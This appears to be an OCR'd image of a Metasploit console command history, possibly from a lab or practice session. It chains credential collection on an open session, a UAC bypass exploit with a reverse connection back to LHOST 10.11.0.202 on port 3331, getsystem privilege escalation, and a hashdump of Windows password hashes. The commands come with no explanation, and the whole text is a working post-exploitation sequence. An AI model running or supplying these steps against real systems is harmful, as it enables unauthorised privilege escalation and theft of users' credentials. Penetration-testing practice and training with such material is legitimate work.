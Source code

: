 use post/windows/gather/credentials/credential_collector 

set session 3

run

sessions -i 3

execute -f cmd.exe -i -H

background

search bypassuac_vbs

use exploit/windows/local/bypassuac_vbs

show options

set session 3

run

show options

set LHOST 10.11.0.202

set LPORT 3331


exploit

search getsystem

use post/windows/escalate/getsystem

show options

set session 3

run

show technique

show -h

use exploit/windows/local/bypassuac_vbs

show options

show targets

exploit

exploit


sessions -i 3

sysinfo

hashdump

run hashdump

history
